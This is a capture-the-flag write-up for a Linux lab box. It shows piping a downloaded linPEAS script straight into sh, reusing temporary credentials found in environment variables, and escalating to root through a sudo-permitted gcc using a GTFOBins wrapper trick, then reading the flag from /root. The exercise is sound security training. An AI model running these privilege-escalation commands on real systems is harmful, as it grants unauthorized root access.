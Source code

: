 # CTF Writeup:  Bit by Bit

## Challenge Overview
* **Category:** Digital Forensics
* **Difficulty:** [Easy]
* **Description:** We have access to a linux box, need to find vulnerabile configuration to escalate privileges and find flag. 


## Tools Used

- [Linpease](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
- [gtfobins](https://gtfobins.github.io/)
- [bash]

---

## Solution

Usual disclaimer here: the following solution was the one that worked and there was some trial and error to find it. Omitting those dead-ends for brevity.  

### Step 1: Initial Access

```bash
ssh Pentester@<ip>

# no response
```

```bash
nmap -sV <ip>

#shows diff port
```

```bash
ssh -p 2222 Pentester@<ip>
```


Challenge requires privilege escalation so let's go script kiddie and fetch a tool to search for privilege escalations (`privesc` as it's call in `the biz`):

```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

```

Under Environment we see `JOAN_TEMPORARY_CREDS=jojocreds1`

Well well well. For reasons mysterious there are temp creds for another user in our environment of our account. Let's try sshing into their account and see what permissions they have. Fingers crossed they're in sudoers and we can use their privesc ours **sinister laughing**. Which account though? 

```bash
ls /home/
# shows JOan 
```
Its probably the joan account. 

```bash

ssh joan@localhost
# no response
```

---

### Step 2: Priv Esc

Now we have access to joan's account, see what groups she's in

```bash
groups
Joan sudo
```

Cool, now let's add our pentester account to sudoers

```bash
sudo usermod -aG sudo Pentester
Sorry, user Joan is not allowed to execute '/usr/sbin/usermod -aG sudo Pentester' as root on dad5f987a15f."
```

Rubbing the brow here as I was heading for a PB for unfinished challenges in this event. Thankfully team-work makes the dream work and I looked to the east for a wizard saviour:

![image](https://github.com/user-attachments/assets/ae3a0073-47c4-4fd2-8951-ded3391ab218)

Lol, thanks wizard 🧙 10 seconds, one command, and a URL later: 

```bash
sudo -l
(ALL) NOPASSWD: /usr/bin/gcc
```

[https://gtfobins.github.io/gtfobins/gcc#sudo]

Doopdeedoop:

```bash
gcc -wrapper /bin/sh,-s .
sudo usermod -aG sudo Pentester
exit
exit
# to log out the pentester. log back in
```


```bash
ssh -p 2222 Pentester@<ip>
```

```bash
groups
Pentester sudo
```

See what command we can run
```bash
sudo -l
(ALL) NOPASSWD: /usr/bin/gcc
```

Run that again. 

---

### Step 3: Flag Retrieval

Now we have root, the flag's gotta be here somewhere, normally just use find (looking for flag.txt) or grep (looking for FLAG within a file) on the entire file system. 

```bash
find / -name flag.txt -type f
/root/flag.txt
cat /root/flag.txt
FLAG{7H15_SUDO_C00K3D_R007}
```

<iframe src="https://giphy.com/embed/lnlAifQdenMxW" width="480" height="274" style="" frameBorder="0" class="giphy-embed" allowFullScreen></iframe><p><a href="https://giphy.com/gifs/football-night-fantasy-lnlAifQdenMxW">via GIPHY</a></p>


---

## Notes

- Don't be afraid to ask for help when you get blocked. Difficult for you can be easy for someone else and vice versa. 
- As a team, set up some tools in comms (like threads in channels) to share progress on challenges.
- Linpeas and gftobins are l337h4x0r

---


